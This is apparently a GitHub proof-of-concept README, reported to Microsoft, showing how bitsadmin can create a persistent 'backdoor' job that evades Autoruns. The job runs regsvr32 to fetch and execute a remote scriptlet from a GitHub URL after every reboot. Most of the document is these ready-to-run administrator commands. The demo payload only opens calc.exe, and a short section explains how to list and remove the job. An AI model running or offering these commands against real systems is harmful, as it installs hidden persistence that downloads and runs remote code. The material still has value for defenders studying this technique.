 # bitsadminexec
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

Author: 3gstudent

License: BSD 3-Clause

###POC
(1) First we should have the administrator's right.

(2) Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3) Then it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4) What's more,after we restart the system,the command to start a calc.exe runs again and again.


###Impact of the issue
Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

###Detect
Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```

###More deatils:
http://drops.wooyun.org/tips/15692
